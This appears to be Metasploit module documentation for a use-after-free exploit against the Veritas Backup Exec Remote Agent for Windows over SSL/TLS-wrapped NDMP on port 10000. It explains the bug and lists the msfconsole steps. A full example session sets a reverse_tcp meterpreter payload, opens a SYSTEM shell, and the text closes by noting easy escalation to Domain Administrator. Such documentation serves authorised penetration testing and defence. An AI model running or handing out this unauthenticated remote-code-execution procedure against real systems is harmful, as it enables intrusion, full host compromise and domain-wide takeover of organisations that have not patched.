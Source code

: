 ## Vulnerability Summary

The Backup Exec Remote Agent for Windows is vulnerable to a use-after-free in
its handling of SSL/TLS-wrapped NDMP connections. If SSL/TLS is established on a
NDMP connection, ended, and finally re-established, the agent will re-use
previously freed SSL/TLS structures. This allows for remote code execution over
an unauthenticated network connection.


## Vulnerable Application

Backup Exec consists of a server component as well as remote agents that are
installed on each host that should be backed up by the server.

There are remote agents available for a range of data sources, including
operating-system level agents for Windows and Linux hosts' local filesystems,
application-specific agents for Microsoft Exchange, SharePoint, Active
Directory, etc., and agents for virtual machines such as VMware or Hyper-V
instances. This exploit targets the Windows OS-level remote agents, which are
the most common type in a typical Backup Exec deployment on a Windows-based
network. The agents are installed as services running by default as the
`NT AUTHORITY\SYSTEM` user.

A trial version of Backup Exec can be downloaded from Veritas' website;
currently the download is available
[here](https://www.veritas.com/trial/en/us/backup-exec-16.html).


## Vulnerability Description

The agent accepts NDMP connections on TCP port 10000. The vendor-specific
`0xF383` NDMP packet type allows for NDMP connections to be wrapped in a SSL/TLS
session. Sub-type `4` initiates the SSL/TLS handshake; after successfully
completing this the client and server continue the NDMP session through the
SSL/TLS session.

The agent makes use of OpenSSL to handle these SSL/TLS sessions. When a SSL/TLS
session is created, the agent creates necessary OpenSSL structures, including a
`struct BIO` from the connection's associated network socket using
`BIO_new_socket`. Upon the end of the SSL/TLS session, this structure is freed
by a call to `BIO_free` through a call to `SSL_free`.

However, if a SSL/TLS connection is then re-established on the same NDMP
connection, the previously freed `BIO` is re-used in the new SSL/TLS session
even though it is no longer allocated. The `BIO` is stored during the first
connection setup and then retrieved during second connection setup as a member
of the `CSecuritySSLConnection` class, despite the call to `SSL_free` previously
freeing it. This leads to a use-after-free as the `BIO` contains a pointer to a
structure (`BIO_METHOD *method`) of function pointers that are used to perform
operations such as reading and writing from the wrapped `BIO` object (in this
case, the network socket).

By overwriting the previously allocated `BIO` with controlled data, it is
possible to gain remote code execution when OpenSSL attempts to call one of
these function pointers.


## Verification Steps

1. Install the Backup Exec server on a host.
2. Install the Backup Exec Remote Agent for Windows on another host, either
   manually or through the server's remote agent installation feature. Note that
   in this contrived test situation you should be sure to let the agent run for
   a few minutes before continuing so it can finish initial startup work that
   otherwise interferes with the exploit's heap manipulation.
3. Start `msfconsole`.
4. Select the module and configure it with, at minimum, the address of the host
   running the remote agent:
   ```
   use exploit/windows/backupexec/ssl_uaf
   set RHOST [REMOTE AGENT HOST]
   ```
5. Check the service is running and potentially vulnerable with the `check`
   command.
6. Select a target version using `set target [TARGET]`.
7. Select a payload and its options; for example:
   ```
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST [METASPLOIT HOST]
   ```
8. Start the exploit using the `exploit` command.
9. Hopefully get a `NT AUTHORITY\SYSTEM` shell :)

An example session is as follows:

```
msf > use exploit/windows/backupexec/ssl_uaf
msf exploit(ssl_uaf) > set RHOST win10
RHOST => win10
msf exploit(ssl_uaf) > check

Hostname: WIN10
OS type: Windows NT
OS version: Major Version=10 Minor Version=0 Build Number=14393 ServicePack Major=0 ServicePack Minor=0 SuiteMask=256 ProductType=1 ProcessorType=AMD64
Host ID: XXXX::XXXX:XXXX:XXXX:XXXX
Vendor: VERITAS Software, Corp.
Product: Remote Agent for NT
Revision: 9.2
[*] win10:10000 The target appears to be vulnerable.
msf exploit(ssl_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Backup Exec 14 (14.1 / revision 9.1), Windows >= 8 x64
   1   Backup Exec 14 (14.1 / revision 9.1), Windows >= 8 x86
   2   Backup Exec 14 (14.1 / revision 9.1), Windows <= 7 x64
   3   Backup Exec 14 (14.1 / revision 9.1), Windows <= 7 x86
   4   Backup Exec 15 (14.2 / revision 9.2), Windows >= 8 x64
   5   Backup Exec 15 (14.2 / revision 9.2), Windows >= 8 x86
   6   Backup Exec 15 (14.2 / revision 9.2), Windows <= 7 x64
   7   Backup Exec 15 (14.2 / revision 9.2), Windows <= 7 x86
   8   Backup Exec 16 (16.0 / revision 9.2), Windows >= 8 x64
   9   Backup Exec 16 (16.0 / revision 9.2), Windows >= 8 x86
   10  Backup Exec 16 (16.0 / revision 9.2), Windows <= 7 x64
   11  Backup Exec 16 (16.0 / revision 9.2), Windows <= 7 x86


msf exploit(ssl_uaf) > set target 4
target => 4
msf exploit(ssl_uaf) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(ssl_uaf) > set LHOST 10.123.1.1
LHOST => 10.123.1.1
msf exploit(ssl_uaf) > exploit

[*] Started reverse TCP handler on 10.123.1.1:4444
[*] win10:10000 - Connecting sockets...
[*] win10:10000 - CA certificate ID = 8120a0e9
[*] win10:10000 - Getting and handling a certificate signing request...
[*] win10:10000 - Agent certificate ID = 430b56d0
[*] win10:10000 - Testing certificate...
[*] win10:10000 - Spraying TLS extensions...
[*] win10:10000 - Entering SSL mode on main socket...
[*] win10:10000 - Spraying TLS extensions...
[*] win10:10000 - Sending stages 2 to 4...
[*] win10:10000 - Closing TLS spray sockets...
[*] win10:10000 - Re-entering SSL mode on main socket...
[*] win10:10000 - Spraying stage 1...
[*] win10:10000 - Triggering UAF, attempt 1/50...
[*] Sending stage (1189423 bytes) to 10.123.1.2
[*] win10:10000 - Spraying stage 1...
[*] win10:10000 - Triggering UAF, attempt 2/50...
[*] Meterpreter session 1 opened (10.123.1.1:4444 -> 10.123.1.2:49748) at 2017-05-23 21:53:07 +1200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```


## Options

Apart from the usual exploit module options such as `RHOST`, the module has a
few exploit-specific options. These should not normally need to be set or
changed from their default values in most situations as the exploit will pick
suitable values for them depending on the target selected.

### NumSpraySockets
The number of sockets connected to the remote agent in order to spray stage 1 of
the exploit, which should overwrite the freed `BIO`.

### NumTLSSpraySockets
The number of sockets connected to the remote agent in order to spray TLS
extensions. This is used to massage the low fragmentation heap in order to
increase chances of stage 1 successfully overwriting the freed `BIO`.

### NumTriggerAttempts
The number of attempts made to trigger the use-after-free for Windows 8+
targets, where it is possible to retry calling the overwritten function pointer
multiple times.


## Scenarios

The Backup Exec Remote Agent for Windows is installed on each host that has
local filesystems that should be backed up. These agents listen on the network
for NDMP connections (on port 10000), appearing in Nmap scans with scripts
enabled as follows:

```
Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-23 20:47 NZST
Nmap scan report for (...)
Host is up (0.0035s latency).
Not shown: 994 filtered ports
PORT      STATE SERVICE            VERSION
(...)
10000/tcp open  ndmp               Symantec/Veritas Backup Exec ndmp (NDMPv3)
|_ndmp-version: ERROR: Script execution failed (use -d to debug)
```

(Note that the `ndmp-version` script fails to execute due to not sending an
`NDMP_CONNECT_OPEN` request before querying version information with the
`NDMP_CONFIG_GET_HOST_INFO` request. This exploit module's `check` command will
carry this query out successfully.)

While the exploit is not guaranteed to gain RCE (see the module's description),
in practise the agent is often widely installed in a Windows domain across a
range of hosts (including fileservers and domain controllers). This means
usually at least one instance of the agent will give a shell on a server where
it's easy enough to further escalate to Domain Administrator from `SYSTEM`.

